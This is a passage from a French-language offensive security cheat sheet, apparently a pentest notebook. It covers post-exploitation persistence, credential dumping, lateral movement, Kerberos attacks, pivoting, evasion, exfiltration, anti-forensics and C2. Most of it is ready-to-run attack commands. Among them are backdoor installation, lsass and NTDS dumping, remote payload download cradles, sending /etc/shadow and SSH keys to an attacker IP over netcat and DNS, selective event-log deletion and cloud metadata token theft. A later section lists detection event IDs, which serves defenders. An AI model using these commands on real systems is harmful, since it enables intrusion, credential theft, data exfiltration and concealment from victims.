gcc -fPIC -shared -o /lib/x86_64-linux-gnu/security/evil.so -nostartfiles evil.c
echo "/lib/x86_64-linux-gnu/security/evil.so" > /etc/ld.so.preload
```

### 12.3 PAM, at, rc.local, SUID & rootkits

```bash
# at (exécution ponctuelle)
echo "/bin/bash /tmp/x.sh" | at now + 1 minute
# rc.local (démarrage)
echo "/bin/bash /tmp/x.sh" >> /etc/rc.local; chmod +x /etc/rc.local
# Copie SUID
cp /bin/bash /tmp/.bash_backdoor; chmod u+s /tmp/.bash_backdoor; /tmp/.bash_backdoor -p
# PAM backdoor : module qui accepte un mot de passe secret (réservé aux engagements longs)
```

| Niveau | Exemples | Détection |
|--------|----------|-----------|
| Utilisateur | `.bashrc`, `LD_PRELOAD`, cron | facile |
| Noyau (LKM) | `Diamorphine`, `Reptile` | chkrootkit, vérifs de hash |
| Firmware / initramfs | UEFI, dracut | très difficile |

> Rootkits & malwares : [[09 - Reverse Engineering & Malware]].

### 12.4 SSH agent

```bash
# Si un agent SSH tourne (sockets /tmp/ssh-*) :
ls /tmp/ssh-*/agent.*
# SSH_AUTH_SOCK=/tmp/ssh-XXX/agent.YYY ssh-add -l → clés utilisables
# → lateral movement vers les machines où ces clés sont autorisées
```
---
## 13. Windows — Persistance

### 13.1 Registre — les Run keys

| Clé de registre | Déclencheur |
|-----------------|-------------|
| `HKLM\...\CurrentVersion\Run` / `RunOnce` | tout login / prochain login |
| `HKCU\...\Run` / `RunOnce` | login de l'utilisateur courant |
| `...\Policies\Explorer\Run` (HKLM & HKCU) | login (clé politique) |
| `HKLM\...\Winlogon\Userinit` / `Shell` | login |
| `HKLM\SYSTEM\...\Session Manager\BootExecute` | boot |
| `HKLM\...\RunServicesOnce` | démarrage services |

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v backdoor /t REG_SZ /d "C:\Windows\Temp\svc.exe"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe,C:\Windows\Temp\svc.exe"
```

### 13.2 Tâches planifiées, startup, WMI

```powershell
schtasks /create /tn "svc" /tr "powershell -enc BASE64" /sc onlogon /ru SYSTEM
# Startup folders (per-user et all-users)
echo "C:\Windows\Temp\svc.exe" > "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\x.bat"
echo "C:\Windows\Temp\svc.exe" > "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\x.bat"
# WMI Event Subscription (EventFilter + EventConsumer + Binding)
$f = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
  Name="svc"; EventNamespace="root\cimv2";
  Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"}
$c = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{
  Name="svc"; CommandLineTemplate="C:\Windows\Temp\svc.exe"}
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{
  Filter=[ref]$f; Consumer=[ref]$c}
```

### 13.3 Services, IFEO, AppInit_DLLs, LSA

```powershell
sc create backdoor binPath= "cmd /c C:\Windows\Temp\svc.exe" start= auto
sc start backdoor
# IFEO : Debugger = payload lancé à la place de sethc/notepad...
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\Temp\svc.exe" /f
# AppInit_DLLs : DLL injectée dans chaque process user32
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\Windows\Temp\evil.dll" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
# LSA Security Packages (SSP) : DLL chargée dans lsass (SYSTEM requis)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v Security Packages /t REG_MULTI_SZ /d "C:\Windows\Temp\evil.dll" /f
# Password Filter : voler chaque nouveau mot de passe (lsass) — Notification Packages
# GPO : si contrôle du domaine (section 20) → script au boot sur le domaine
```
---
## 14. Credentials Dumping

### 14.1 Mimikatz — le workflow complet

> Fiche détaillée : [[Outil - Mimikatz]]

```text
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
mimikatz # lsadump::sam / lsadump::secrets / lsadump::lsa /patch
mimikatz # lsadump::dcsync /domain:lab.local /user:Administrator
mimikatz # dpapi::cred /in:%APPDATA%\Microsoft\Credentials\*
mimikatz # kerberos::list
```

### 14.2 Dump de lsass

```powershell
# ProcDump (le plus courant)
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp
# comsvcs (signé Microsoft, sans outil tiers)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID> C:\Temp\lsass.dmp full
# Analyse :
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```

> L'accès à lsass est la **première chose surveillée** par les EDR (Sysmon 10, ETW). Alternatives : dump via un processus SYSTEM légitime, ou récupération mémoire.

### 14.3 SAM / SYSTEM, caches & DPAPI

```bash
reg save HKLM\SAM C:\Temp\SAM          # côté Windows (admin)
reg save HKLM\SYSTEM C:\Temp\SYSTEM
reg save HKLM\SECURITY C:\Temp\SECURITY
# Côté Linux :
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY local
impacket-secretsdump 'lab.local/Administrator:Pass@10.10.10.10'   # à distance
```

```powershell
# DPAPI & navigateurs
mimikatz # dpapi::cred /in:%APPDATA%\Microsoft\Credentials\*
mimikatz # dpapi::chrome /in:"%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data"
# Navigateurs : Chrome/Edge → "Login Data" + "Local State" ; Firefox → logins.json + key4.db
# Outils : LaZagne, SharpDPAPI
cmdkey /list; vaultcmd /listcreds:"Windows Credentials"   # RDP + vault
```

### 14.4 WDigest, Kerberos, GPP, NTDS.dit

```powershell
# WDigest : mots de passe EN CLAIR en mémoire (si activé)
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
klist; .\Rubeus.exe dump                # tickets Kerberos
# GPP cpassword (anciennes GPO, chiffrement cassé) :
gpp-decrypt <cpassword>
dir \\<DC>\SYSVOL\<domain>\Policies\ /s /b | findstr /i xml
# NTDS.dit (sur le DC, SYSTEM requis) :
ntdsutil "ac i ntds" "ifm" "create full C:\Temp\ntds" q q
# extraction :
impacket-secretsdump -ntds ntds.dit -system SYSTEM local
```
---
## 15. Lateral Movement — Vue d'ensemble

### 15.1 Les principes

Le **lateral movement** consiste à passer d'une machine à l'autre en réutilisant des identifiants.

- **La monnaie d'échange est le credential** (hash, ticket, mot de passe en clair), pas l'exploit.
- **On ne réexploite jamais un réseau** : un hash obtenu se rejoue.
- **L'ordre des cibles** : machines de service → postes admin → DC en dernier.
- **Discrétion** : chaque connexion laisse un `4624` (logon type 3/9/10).



### 15.2 Vérifications avant de bouger

```bash
arp -a; ipconfig /all; netstat -ano | findstr ESTABLISHED
cat /etc/hosts /etc/resolv.conf 2>/dev/null
crackmapexec smb 10.10.10.0/24 -u admin -H <hash> --local-auth
```

### 15.3 BloodHound avant de bouger

> Fiche détaillée : [[Outil - BloodHound]]

```powershell
.\SharpHound.exe --collectionmethods All --zipfilename data.zip
# ou : bloodhound-python -d lab.local -u user -p pass -c All
# Requêtes clés : "Shortest Path to Domain Admins", "DCSync Rights",
#                 "Most Local Admin Rights", "Kerberoastable Users"
```
---
## 16. Pass-the-Hash & Pass-the-Ticket

### 16.1 Pass-the-Hash (PtH)

> Fiche détaillée : [[Techniques/Pass-the-Hash]]

Le PtH rejoue le **hash NTLM** sans le mot de passe en clair. Valable sur **SMB, WinRM, RDP (restrictions), LDAP...**

```bash
impacket-psexec 'lab.local/user@10.10.10.10' -hashes :<NTLMhash>
impacket-wmiexec 'lab.local/user@10.10.10.10' -hashes :<NTLMhash>
impacket-smbexec 'lab.local/user@10.10.10.10' -hashes :<NTLMhash>
crackmapexec smb 10.10.10.0/24 -u admin -H <NTLMhash> --local-auth
crackmapexec winrm 10.10.10.10 -u admin -H <NTLMhash>
pth-winexe -U lab.local/Admin%aad3b435b51404eeaad3b435b51404ee:<NTLMhash> //10.10.10.10 cmd
smbclient //10.10.10.10/share -U lab.local/admin --pw-nt-hash <NTLMhash>
```

```powershell
# Mimikatz : injecter le hash dans une session → cmd avec le token
mimikatz # sekurlsa::pth /user:admin /domain:lab.local /ntlm:<hash> /run:cmd.exe
```

### 16.2 Pass-the-Ticket & Overpass-the-Hash

> Fiche détaillée : [[Techniques/Pass-the-Ticket et Overpass-the-Hash]]

```powershell
.\Rubeus.exe ptt /ticket:user.kirbi            # charger un ticket
mimikatz # kerberos::ptt user.kirbi
.\Rubeus.exe asktgt /user:admin /rc4:<NTLMhash> /domain:lab.local /ptt   # overpass-the-hash
mimikatz # sekurlsa::pth /user:admin /domain:lab.local /ntlm:<hash> /run:powershell.exe
klist                                        # vérifier
```

### 16.3 Golden Ticket (persistance domaine)

> Fiche détaillée : [[Techniques/Golden Ticket]]

```powershell
mimikatz # lsadump::dcsync /domain:lab.local /user:krbtgt      # hash krbtgt (DC uniquement)
mimikatz # kerberos::golden /user:Administrator /domain:lab.local /sid:S-1-5-21-... /krbtgt:<hash>
# /ptt pour injecter immédiatement, ou /ticket:golden.kirbi
```
---
## 17. Kerberos Attacks

> Le protocole : [[Techniques/Kerberos - Le protocole]]

### 17.1 Kerberoasting & AS-REP Roasting

> Fiches : [[Techniques/Kerberoasting]]

```bash
impacket-GetUserSPNs lab.local/user:pass -request -dc-ip 10.10.10.1 -outputfile hashes.txt
crackmapexec ldap 10.10.10.1 -u user -p pass --kerberoasting --kdcHost 10.10.10.1
# AS-REP (comptes sans pré-auth) :
impacket-GetNPUsers lab.local/ -usersfile users.txt -dc-ip 10.10.10.1
```

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.txt
.\Rubeus.exe asreproast /outfile:hashes.txt
# Cracking : hashcat -m 13100 (kerberoast) / -m 18200 (asrep)
```

### 17.2 Delegation attacks

- **Unconstrained** : le DC met un ticket forwardable dans le TGT de la machine déléguante → vol de tickets → [[Techniques/Kerberos - Unconstrained Delegation]]
- **Constrained** : TGS pour un **ensemble défini de SPN** via `s4u2self`/`s4u2proxy` → [[Techniques/Kerberos Delegation]]
- **RBCD** : on définit QUI peut se faire déléguer → escalade machine → [[Techniques/Kerberos - RBCD (Resource-Based Constrained Delegation)]]

```powershell
.\Rubeus.exe monitor /interval:5 /filteruser:krbtgt              # unconstrained
.\Rubeus.exe s4u /user:svc /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/dc.lab.local /ptt
```

### 17.3 Silver Ticket & Rubeus

> Fiche détaillée : [[Techniques/Silver Ticket]]

```powershell
# Forger un TGS pour un service avec le hash du compte machine (pas besoin du krbtgt)
mimikatz # kerberos::golden /user:fakeadmin /domain:lab.local /sid:S-1-5-21-... /target:dc.lab.local /service:cifs /rc4:<machine-hash> /ptt
```

> Workflow Rubeus complet : [[Outil - Rubeus]]

```powershell
.\Rubeus.exe triage | dump | kerberoast | asreproast
.\Rubeus.exe asktgt /user:user /password:p /ptt
.\Rubeus.exe asktgt /user:user /rc4:<hash> /ptt
.\Rubeus.exe s4u /user:svc /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/dc /ptt
.\Rubeus.exe ptt /ticket:<file>
```

### 17.4 BloodHound pour le lateral movement

```cypher
MATCH p = shortestPath((a {name:"USER@LAB.LOCAL"})-[*1..5]->(b {highvalue:true})) RETURN p
MATCH (n) WHERE n.ownedPrincipals CONTAINS 'DCSync' RETURN n
MATCH (u) WHERE u.kerberoastable RETURN u
```
---
## 18. Remote Services & WMI

### 18.1 Comparatif des services de connexion

| Service | Port | Authentification | Avantages |
|---------|------|------------------|-----------|
| **SMB** (PsExec/smbexec) | 445 | NTLM / Kerberos | PtH direct, partages |
| **WMI** | 135/RPC | NTLM / Kerberos | silencieux |
| **WinRM** | 5985/5986 | NTLM / Kerberos | PowerShell natif |
| **RDP** | 3389 | NTLM (restriction PtH) | GUI |
| **SSH** | 22 | clés / password | si installé |
| **DCOM** | 135 | NTLM / Kerberos | méthodes OLE |

### 18.2 WMI, WinRM, PsExec

```bash
impacket-wmiexec 'lab.local/user:Pass@10.10.10.10'
impacket-wmiexec 'lab.local/user@10.10.10.10' -hashes :<hash>
evil-winrm -i 10.10.10.10 -u user -H <NTLMhash>        # PtH + scripts/exe
impacket-psexec 'lab.local/user:Pass@10.10.10.10'
impacket-smbexec 'lab.local/user:Pass@10.10.10.10'
```

```powershell
# Côté Windows
Invoke-WmiMethod -ComputerName 10.10.10.10 -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami > C:\Temp\out.txt"
$s = New-PSSession -ComputerName 10.10.10.10; Invoke-Command -Session $s -ScriptBlock { whoami }
.\PsExec.exe \\10.10.10.10 -u lab.local\user -p Pass cmd
```

### 18.3 DCOM, schtasks, sc, RDP

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.10"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c whoami > C:\Temp\o.txt","7")
```

```cmd
schtasks /create /tn "tmp" /tr "cmd /c C:\Temp\p.exe" /sc once /st 00:00 /s 10.10.10.10 /u lab.local\user /p Pass /ru SYSTEM /rl highest
schtasks /run /tn "tmp" /s 10.10.10.10
sc \\10.10.10.10 create backdoor binPath= "cmd /c C:\Temp\p.exe" start= demand
sc \\10.10.10.10 start backdoor
```

```bash
# RDP (PtH si "Restricted Admin" désactivé)
xfreerdp /v:10.10.10.10 /u:user /pth:<NTLMhash> /dynamic-resolution
```
---
## 19. Pivoting & Tunneling

> Fiche détaillée : [[Techniques/Pivoting et Tunneling]]

### 19.1 Les principes

On pivote quand la machine compromise **voit un réseau** que notre machine ne voit pas. Choix selon : OS de la victime, accès réseau, besoin (SOCKS complet vs redirection de port).



### 19.2 SSH, proxychains, sshuttle

```bash
ssh -D 1080 user@victim                # SOCKS5 local
ssh -L 3306:127.0.0.1:3306 user@victim # port forward
ssh -R 8080:attacker:80 user@victim    # reverse forward
# /etc/proxychains.conf : socks5 127.0.0.1 1080
proxychains nmap -sT -Pn 10.10.10.5
proxychains evil-winrm -i 10.10.10.5 ...
sudo sshuttle -r user@victim 10.10.10.0/24   # VPN sur SSH (Linux)
```

### 19.3 Chisel, Ligolo-ng

> Fiches : [[Outil - Chisel]], [[Outil - Ligolo-ng]]

```bash
# Chisel : SOCKS sur HTTP
./chisel server -p 8080 --reverse                     # attaquant
./chisel client 10.10.14.5:8080 R:socks               # victime → SOCKS5 local
./chisel client 10.10.14.5:8080 R:3389:10.10.10.5:3389
# Ligolo-ng
sudo ip tuntap add user $(whoami) mode tun ligolo; sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:11601                # attaquant
./agent -connect 10.10.14.5:11601 -ignore-cert        # victime
# console proxy : sessions; start; listener_add --addr 0.0.0.0:445
```

### 19.4 Double pivot & redirections natives

```bash
# Chaîne : A (R:socks) → B (re-serve chisel) → réseau de B
# Préférer les connexions directes (port forward) aux SOCKS : plus rapides et plus discrètes
```

```cmd
netsh interface portproxy add v4tov4 listenport=8080 connectaddress=10.10.10.5 connectport=80
```
---
## 20. AD — Attaques

> Hub dédié : [[05 - Active Directory]]

### 20.1 Les briques AD

| Attaque | Prérequis | Résultat |
|---------|-----------|----------|
| **Kerberoasting** | compte SPN + creds domaine | TGS crackable |
| **AS-REP Roasting** | compte sans pre-auth | hash crackable |
| **Delegation** | machine avec délégation | tickets admin |
| **DCSync** | droits `Replicating Directory Changes` | tous les hashs (dont krbtgt) |
| **GPP cpassword** | accès SYSVOL | mots de passe en clair |
| **GPO abuse** | `GPO Owner` / liens | payload sur le domaine |
| **ACL abuse** | `GenericAll`, `WriteDacl`, `WriteOwner`... | contrôle de comptes |
| **adminSDHolder / SDProp** | droits sur le conteneur | persistance AD |
| **Shadow Credentials** | droits sur `msDS-KeyCredentialLink` | authentification certif |

### 20.2 DCSync & le circuit classique

```bash
impacket-secretsdump 'lab.local/user:Pass@10.10.10.1' -just-dc-user krbtgt
impacket-secretsdump 'lab.local/user:Pass@10.10.10.1' -just-dc
crackmapexec ldap 10.10.10.1 -u user -p pass --ntds
# Circuit : creds domaine → Kerberoast/spray → routes BloodHound
# → PtH jusqu'au DC → DCSync → Golden ticket si persistance
```

```powershell
mimikatz # lsadump::dcsync /domain:lab.local /user:krbtgt
```

### 20.3 ACL abuse, adminSDHolder, Shadow Credentials

```powershell
# ACL : GenericAll sur un compte → reset du mot de passe
net user <target> NewPass123 /domain
# adminSDHolder : contrôler la DACL du conteneur → SDProp réplique la modif (60 min)
# → persistance AD quasi inamovible
# Shadow Credentials (GenericWrite/GenericAll) :
.\Whisker.exe add /target:dc$ /domain:lab.local /dc:10.10.10.1 /path:cert.pfx /password:Passw0rd
certipy auth -pfx dc.pfx -username dc$ -domain lab.local -dc-ip 10.10.10.1
```
---
## 21. Évasion & Living off the Land

### 21.1 LOLBins — le concept

> [!info] **LOLBins** = binaires Windows légitimes détournés (pas de nouveau fichier = moins suspect)
> Référence : [LOLBAS](https://lolbas-project.github.io)

| Binaire | Usage détourné | Remarque |
|---------|----------------|----------|
| `powershell.exe` | IEX, -enc, Add-Type | très surveillé |
| `certutil.exe` | download/upload, base64 | très détecté |
| `bitsadmin.exe` | download en tâche de fond | passe les proxies |
| `mshta.exe` | exécuter des HTA | très détecté |
| `regsvr32.exe` | DLL/SCT à distance (`scrobj.dll`) | efficace |
| `rundll32.exe` | DLL + scriptlets | polyvalent |
| `wmic.exe` | exécution distante | XSL exec |
| `msiexec.exe` | installer un MSI depuis HTTP | signatures |
| `control.exe` | charger un .cpl | souvent oublié |
| `forfiles.exe` | exécuter sur des fichiers | low profile |
| `hh.exe` | ouvrir un .chm | niche |

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5/payload.ps1')
powershell -nop -w hidden -ep bypass -enc <BASE64>
bitsadmin /transfer job /download /priority high http://10.10.14.5/p.exe C:\Temp\p.exe
certutil -urlcache -split -f http://10.10.14.5/p.exe p.exe
certutil -urlcache -split -f http://10.10.14.5/p.b64 p.b64 && certutil -decode p.b64 p.exe
regsvr32 /s /n /u /i:http://10.10.14.5/payload.sct scrobj.dll
msiexec /i http://10.10.14.5/evil.msi /quiet /qn
```

### 21.2 AMSI & AppLocker bypass — principes

```powershell
# AMSI : intercepte le contenu déclaré avant exécution
# 1. Patch de AmsiScanBuffer en mémoire (la référence, avec xor/obfuscation)
# 2. amsiInitFailed (très connu, déjà bloqué par la plupart des EDR)
# 3. Downgrade -version 2 (souvent bloqué par politique)
# 4. Pur C# / assembly in-memory (unmanaged PowerShell, hôte CLR custom)
# 5. Commandes sans scripts : WMI, .NET direct, LOLBins natifs
# AppLocker/WDAC : tester les répertoires autorisés, les binaires signés Microsoft,
#                 et les bypass mshta/regsvr32/rundll32 DANS UN LAB.
```

### 21.3 Obfuscation & chargement en mémoire

```powershell
$c = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("whoami"))
powershell -nop -w hidden -enc $c
# Charger une assembly .NET sans écrire sur disque :
$bytes = [IO.File]::ReadAllBytes("C:\Windows\Temp\SharpHound.exe")
[Reflection.Assembly]::Load($bytes) | Out-Null
[MyNamespace.Main]::Run()
# Conduite à tenir : pas de fichiers nommés shell/payload, in-memory autant que possible,
# HTTPS pour les C2, compiler/signer ses binaires
```
---
## 22. Exfiltration

### 22.1 Le socle commun

```bash
python3 -m http.server 80                    # serveur HTTP
nc -w 3 10.10.14.5 4444 < /etc/shadow        # netcat fichier
nc -lvnp 4444 > shadow.txt
base64 -w0 /etc/shadow | nc 10.10.14.5 4444  # encodage texte
tar czf - /etc/passwd /home/*/.ssh | base64 | nc 10.10.14.5 4444
# Windows : certutil -encode C:\flag.txt flag.b64 / -decode flag.b64 flag.txt
```

### 22.2 DNS & tunnels

> Le DNS est **presque toujours autorisé** en sortie. Familles : **dnscat2** (tunnel complet), **iodine** (tunnel IP).

```bash
while read -r line; do
  echo -n "$line" | base64 -w0 | sed 's/.\{50\}/&./g' | xargs -I{} dig @10.10.14.5 {} exfil.attaque.local +short
done < /etc/shadow
dnscat2-server exfil.attaque.local        # serveur
dnscat2 exfil.attaque.local               # client
iodined -f -c -P secret exfil.attaque.local 10.0.0.1
# ICMP : icmpsh / ptunnel-ng (lent mais passe quasi partout)
```

### 22.3 FTP, SMB, détection

```bash
pip install pyftpdlib; python -m pyftpdlib -p 21 -u user -P pass   # FTP
impacket-smbserver share . -smb2support                            # SMB
# depuis Windows : copy C:\flag.txt \\10.10.14.5\share\flag.txt
```

| Indicateur pour le SOC | À savoir |
|-----------|--------------------|
| taille anormale des flux sortants | volume CPU/DNS inhabituel |
| entropie élevée (base64/chiffré) | DLP |
| sous-domaines exotiques | logs DNS volumineux |
| beacons réguliers | rythme stable = C2 |

> Vérifier ce qui part réellement : `tcpdump -i tun0 -A` — [[Outil - tcpdump]], [[Outil - Wireshark]].
---
## 23. Anti-forensics

> En lab/CTF on ne nettoie pas toujours. En engagement réel, la propreté fait partie du contrat — mais **effacer une preuve est parfois destructif**. Toujours respecter le cadre autorisé. Ici, le **concept** pour la simulation.

### 23.1 Timestomping

```bash
touch -d "2026-01-01 10:00:00" /tmp/payload.sh          # Linux
```

```powershell
(Get-Item C:\Temp\p.exe).LastWriteTime = "01/01/2026 10:00:00"   # Windows (mtime/atime)
(Get-Item C:\Temp\p.exe).CreationTime = "01/01/2026 10:00:00"
# outils : timestomp (Metasploit), SharpTimestomper
```

### 23.2 Journalisation — suppression ciblée

```powershell
# Effacer TOUT = alerte immédiate (Event 1102 : log cleared).
# Suppression SÉLECTIVE des événements nous concernant (ex : IP source) :
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} |
    Where-Object { $_.Properties[8].Value -eq '10.10.14.5' } |
    Remove-EventLog -Confirm:$false
# À éviter : wevtutil cl Security  → génère 1102
# Linux : supprimer les lignes nous concernant dans /var/log/auth.log, etc.
```

### 23.3 Les artefacts Windows

| Artefact | Emplacement | Ce qu'il révèle |
|----------|-------------|-----------------|
| **Prefetch** | `C:\Windows\Prefetch\*.pf` | programmes exécutés |
| **ShimCache / AppCompatCache** | registre `SYSTEM` | exécutions |
| **AmCache.hve** | `C:\Windows\AppCompat\Programs\Amcache.hve` | exécutions passées |
| **USN Journal** | `$Extend\$UsnJrnl` | modifications de fichiers |
| **Volume Shadow Copies** | `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy*` | anciennes versions |
| **Event Logs** | `C:\Windows\System32\winevt\Logs\` | 4624/4688/4698/7045 |
| **Recent files** | `%APPDATA%\Microsoft\Windows\Recent` | fichiers ouverts |
| **Recycle bin** | `$Recycle.Bin` | fichiers supprimés |

### 23.4 Nettoyage ciblé & limites

```powershell
del C:\Windows\Prefetch\PAYLOAD*.pf          # (droit admin)
Clear-RecycleBin -Force
cipher /w:C:\Temp                            # remplir d'aléatoire (wiping)
shred -zun 3 /tmp/payload                    # Linux
```

- Le **ctime** n'est pas modifiable en userspace Windows.
- Les logs du **contrôleur de domaine** (Kerberos, DCSync 4662) ne sont pas à notre portée.
- **EDR kernel** ont leurs propres buffers ; les **snapshots VSS** gardent une copie pré-nettoyage.
---
## 24. C2 & Frameworks

### 24.1 Le modèle du beacon

Un **beacon** se connecte périodiquement au C2. Le compromis : **rapide = efficace mais bruyant**, lent = discret mais lent. `sleep` + `jitter` rendent le trafic plus naturel.



### 24.2 Metasploit — post-modules & sessions

> Fiche détaillée : [[Outil - Metasploit]]

```text
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5; set LPORT 4444; exploit -j
sessions -i 1
getuid; sysinfo; getprivs; getsystem
run post/multi/recon/local_exploit_suggester
run post/windows/gather/credentials/windows_autologin
migrate <PID>                    # vers un process SYSTEM
portfwd add -L 0.0.0.0 -l 445 -p 445 -r 10.10.10.5
route add 10.10.10.0/24 <session>
```

### 24.3 Sliver, Empire, Covenant, Mythic

> Fiches : [[Outil - Sliver]], [[Outil - PowerShell Empire]], [[Outil - Covenant]], [[Outil - Mythic]]

```text
sliver > generate --mtls 10.10.14.5 --os windows --arch amd64 --save ./payload.exe
sliver > https -L 10.10.14.5 -l 443
sliver > sessions
sliver (SESS) > execute -o cmd /c whoami
sliver (SESS) > mimikatz sekurlsa::logonpasswords
```

| Framework | Langage | Points forts |
|-----------|---------|--------------|
| **PowerShell Empire** | PowerShell/Python | scripts PS natifs |
| **Covenant** | C# | .NET natif, UI web |
| **Mythic** | multi-agents (Go, C#, Python) | plugin-based |

### 24.4 Staging & in-memory

```bash
# Stageless (autonome) vs staged (stager → télécharge le stage) :
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.14.5 LPORT=443 -f exe -o p.exe
# Les payloads par défaut sont très détectés → compiler/signer, in-memory
# In-memory : execute-assembly (Sliver/Covenant/Mythic), inject, powershell modules
```
---
## 25. Linux — Post-exploitation avancé

### 25.1 Inspection /proc & kernel

```bash
cat /proc/self/status; cat /proc/1/environ        # flags + variables de PID 1
ls /proc/*/cwd; cat /proc/modules; lsmod          # cwd des process + modules LKM
cat /proc/sys/kernel/kptr_restrict                # protections
```

### 25.2 Chasse aux clés SSH & iptables

```bash
find / -name "*.pem" -o -name "*.ppk" -o -name "id_*" 2>/dev/null | grep -v proc
cat /root/.ssh/config /home/*/.ssh/config 2>/dev/null   # routes de lateral movement
iptables -L -n -v 2>/dev/null; cat /etc/nftables.conf 2>/dev/null
```

### 25.3 Cloud metadata & Kubernetes

```bash
# Metadata service : 169.254.169.254
# AWS IMDSv1 :
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>
# AWS IMDSv2 : token requis
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
# GCP : curl -s -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
# Azure : curl -s -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
# Pod Kubernetes : le token SA permet l'API cluster
cat /run/secrets/kubernetes.io/serviceaccount/token 2>/dev/null
kubectl --token=$SA --server=$KUBEAPI auth can-i --list
```
---
## 26. Cloud & Containers Post-exploitation

### 26.1 Le modèle

Dans le cloud, l'objectif n'est plus un shell mais **les identités** : rôles IAM, service accounts, Managed Identities. Un token IMDS vaut souvent plus qu'un shell.



### 26.2 AWS, Azure, GCP

```bash
# AWS : cartographie + post-exploitation
scoutsuite aws --profile pwned
cloudfox aws -p pwned permissions
pacu                              # framework AWS (IAM privesc, backdoors)
# Azure : Managed Identity token → Graph/ARM
#  GET http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
# GCP : service account token → googleapis (IAM, GCS, GKE)
# ScoutSuite couvre les 3 providers ([[Outil - ScoutSuite]])
```

### 26.3 Kubernetes — kubectl & service accounts

```bash
kubectl --token=$SA --server=$KUBEAPI auth can-i --list
kubectl exec -it <pod> -- /bin/sh
kubectl get secrets -n kube-system    # souvent trop larges
kubectl get pods --all-namespaces
# Escalade : conteneur privilégié / PV hostPath → lire la racine du nœud
# Outils : peirates (K8s), trivy, prowler (audit)
```
---
## 27. Détection & Défense

> Comprendre ce que voit le défenseur permet d'être discret — et nourrit les recommandations du rapport.

### 27.1 Les Event IDs Windows

| Event ID | Événement | Ce qu'il révèle |
|----------|-----------|-----------------|
| 4624 | logon réussi | connexion types 3/9/10 |
| 4625 | logon échoué | password spraying |
| 4672 | privilèges spéciaux | token admin |
| 4688 | création de processus | payload / commandes |
| 4698/4699 | tâche planifiée créée/supprimée | schtasks malveillant |
| 7045 | service installé | psexec / sc create |
| 1102 | journal vidé | nettoyage de logs = alarme |
| 4720/4732 | user créé / membre ajouté | persistance, admin |
| 4768/4769 | TGT / TGS demandés | Kerberoasting, silver ticket |
| 4771 | pré-auth Kerberos échouée | AS-REP roast |
| 4104 | ScriptBlock PowerShell | contenu des scripts |
| 4662 | opération sur l'objet | DCSync (réplication) |

### 27.2 Sysmon — event IDs clés

| ID | Événement | Usage défensif |
|----|-----------|----------------|
| 1 | process creation | ligne de commande |
| 3 | network connection | C2 sortant |
| 7 | image loaded | DLL chargées (hijacking) |
| 10 | process access | accès lsass (mimikatz/procdump) |
| 11 | file create | payloads écrits |
| 13 | registry value set | Run keys, IFEO |
| 22 | DNS query | exfiltration DNS |
| 25 | process tampering | ETW patch / unhooking |

### 27.3 Ce qui déclenche typiquement une alerte

```text
- Accès à lsass (Sysmon 10) / 4624-4672 atypiques
- regsvr32 / mshta / rundll32 avec URLs distantes, certutil -urlcache, bitsadmin
- Ajout d'exclusions Defender, création de services 7045, WMI event consumers
- schtasks avec -enc / -w hidden, connexions SMB/WinRM/RDP inhabituelles
- Ticket TGT > 10 h ou SID incohérent (golden/silver)
- DCSync (4662 Directory Replication)
```

### 27.4 Être plus dur à détecter (attaque)

```text
1. Limiter les machines touchées, dormant quand inutile
2. Utiliser les protocoles existants (PSRemoting si déjà utilisé)
3. In-memory / LoTL plutôt que nouveaux exécutables
4. Varier les techniques entre les machines
5. Nettoyer les artefacts de sa session (section 23)
```
---
